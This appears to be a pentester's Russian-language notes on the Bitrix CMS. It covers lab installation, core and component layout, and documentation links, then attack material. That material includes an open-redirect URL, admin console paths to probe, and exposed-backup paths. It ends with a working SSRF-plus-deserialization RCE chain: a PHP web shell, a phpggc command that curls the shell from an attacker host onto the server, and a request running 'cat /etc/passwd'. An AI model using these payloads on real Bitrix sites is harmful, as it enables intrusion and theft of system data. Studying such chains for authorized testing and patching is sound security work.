 # Bitrix

## Src

link: [https://doc.budagov.ru/](https://doc.budagov.ru)

Git с bitrix разных версий: [https://github.com/avshatalov48/bitrix-core-business](https://github.com/avshatalov48/bitrix-core-business)

## Установка

Самой простой способ установить – поставить BitrixVM. Скачиваем с офф сайта Centos образ (OVA). Открываем в VMWare, даем доступ к сети для виртуалки.&#x20;

Запускаем, дефолтные кредсы – `root/bitrix` и `bitrix/bitrix`. Меняем пароль для обоих пользователей.

Настраиваем Management Pool (1 опция в следующем меню): указываем любой виртуальный хост и если сетка работает, то все ок. Что бы выйти в консоль на тачке, много раз выбираем опцию 0.

Теперь заходим по IP с хостовой системы и устанавливаем Bitrix CMS (Бизнес, демо доступ, и ставим сайт для разработчика).

Теперь у нас по пути `/home/bitrix/www` инсталяция битры. `/home/bitrix/www/bitrix` — здесь ядро битрикса со всеми плагинами.

Как узнать какая версия ядра битры у вас:

* В админке битры прокрутить в самый низ страницы
* Параметр `SM_VERSION` в сорцах (`modules/main/classes/general/version.php`)

Легкий способ забрать сорцы с тачки (чтобы не мучаться с открытием портов на centos): запаковать папку соответствующую, в админке в разделе управления контентом забрать из файлового менеджера.

### Другие способы установки

* Вроде как можно автоматизировать развертку битры на своей впс'ке ([https://handyhost.ru/help/poleznyie-stati/bitrixvm.html](https://handyhost.ru/help/poleznyie-stati/bitrixvm.html) через bitrix-env)
* Можно использовать PHP-скрипт bitrixsetup, он же используется в проекте bitrixdock (ребята обернули все необходимое окружение в Docker, подходит для разворачивания демки; [https://github.com/bitrixdock/bitrixdock](https://github.com/bitrixdock/bitrixdock)) Правда у меня не вышло ни на хостовой системе, ни на DO: возможно я что-то с окружением напутал, или надо подправить их конфиг, хз (**TODO**).

## Что внутри

### Ядро

**Ядро продукта** - файлы, находящиеся в директории `/bitrix/modules/` а так же файлы системных компонентов: `/bitrix/components/bitrix/`.

### Компоненты

Компонент — то, что пишет уже разработчик — независимая функциональность (= библиотека).&#x20;

```
Папка компонента может содержать следующие подпапки и файлы:

    подпапку /lang, в которой расположены файлы языковых сообщений (переводов) компонента. В ней также могут размещаться папки помощи /help.
    подпапку /templates, в которой расположены шаблоны вывода (отображения) компонента. Эта подпапка может отсутствовать, если у компонента нет шаблонов вывода.
    файл component.php, который содержит логику (код) компонента. Задача этого файла - сформировать из полученных параметров ($arParams) массив $arResult, который впоследствии попадет в шаблон компонента. Этот файл должен присутствовать в папке компонента, если только логика компонента не размещена в файле class.php.
    файл .description.php, который содержит название, описание компонента и его положение в дереве логического размещения (для редактора). Этот файл должен всегда присутствовать в папке компонента. Его отсутствие не скажется на работе компонента, но размещение компонента через визуальный редактор станет невозможным.
    файл .parameters.php, который содержит описание входных параметров компонента для редактора. Если у компонента есть входные параметры, то этот файл должен присутствовать в папке компонента.
    файл class.php для поддержки ООП-компонентов. В этом файле так же может размещаться логика (код) компонента.
    файл script.js, может подключаться из шаблона, а может из кода компонента .
    любые другие папки и файлы с ресурсами, необходимыми компоненту, например, папка /images.

```

Компоненты в Bitrix Framework должны храниться только в определенных местах:

* в папке `/bitrix/components/bitrix` (по умолчанию);
* в папке `/bitrix/components/собственное пространство имен`.
* в папке `/local/components/` (рекомендуется для собственных компонентов сторонних разработчиков)

Все компоненты находятся в папке `/bitrix/components/`. Системные компоненты находятся в папке `/bitrix/components/bitrix/`. Содержимое этой папки обновляется системой обновлений и не может изменяться пользователями.

Пользовательские компоненты могут находиться в любых других подпапках папки `/bitrix/components/` или прямо в папке `/bitrix/components/`, но рекомендуется папка `/local/components/`.

Подключение:

В самом общем виде подключение компонента осуществляется следующим образом:

```
<?$APPLICATION->IncludeComponent(
   $componentName,         // имя компонента
   $componentTemplate,     // шаблон компонента, пустая строка если шаблон по умолчанию
   $arParams=array(),      // параметры
   $parentComponent=null,  // null или объект родительского компонента
   $arFunctionParams=array()
);?>
```

## Docs

Курс от компании битрикс для разработчиков: [https://dev.1c-bitrix.ru/learning/course/index.php?COURSE\_ID=43\&INDEX=Y](https://dev.1c-bitrix.ru/learning/course/index.php?COURSE\_ID=43\&INDEX=Y)

Документация по продукту 1С-Битрикс Управление сайтом: [http://dev.1c-bitrix.ru/user\_help/](http://dev.1c-bitrix.ru/user\_help/)

Документация для разработчиков: [http://dev.1c-bitrix.ru/api\_help/](http://dev.1c-bitrix.ru/api\_help/)

Документация для разработчиков по Rest API: [http://dev.1c-bitrix.ru/rest\_help/](http://dev.1c-bitrix.ru/rest\_help/)

Про битрикс с точки зрения экосистемы: [https://habr.com/ru/post/282333/](https://habr.com/ru/post/282333/)

## Open Redirect&#x20;

Будет предупреждение. Как бы все ок, но все же

```
https://<domain>/<path>/bitrix/redirect.php?goto=<redirect>
```

## Внутри консоли PHP и SQL

Можно проверять на доступ к функциям специфичным (например, shell\_exec)

```
https://<domain>/bitrix/admin/sql.php
https://<domain>/bitrix/admin/php_command_line.php
```

## Настройки

Настройки смотреть здесь: [https://\<domain>/bitrix/admin/settings.php](https://staging.s-devices.ony.digital/bitrix/admin/settings.php)

В Bitrix есть компонент — Сканер безопасности. Он выдает толковые вещи и рекомендации по устранению:

```
https://<domain>/bitrix/admin/security_scanner.php
```

## Проверить, не палит ли бэкапы:

```
/bitrix/backup/
```

## SSRF + Deser = RCE

Версии ядра «Битрикс» до `20.0.975` содержат уязвимость типа SSRF, которая в комбинации с небезопасной десериализацией позволяет выполнить произвольный код в контексте операционной системы.&#x20;

```
$ cat payload
<?php system($_REQUEST['some_s3cr3t_post_param_for_rce']); ?>
$ php phpggc Bitrix/RCE2 system 'curl http://my.domain.com/payload -o /var/www/some.domain.bitrix.com/bitrix/tools/test_23235235.php' -b
```

Таким образом по пути /var/www/some.domain.bitrix.com/bitrix/tools/test\_23235235.php загружен шелл

Делаем запрос:

```
POST /bitrix/tools/test_23235235.php HTTP/1.1
Host: some.domain.bitrix.com

some_s3cr3t_post_param_for_rce=cat /etc/passwd
```

&#x20;
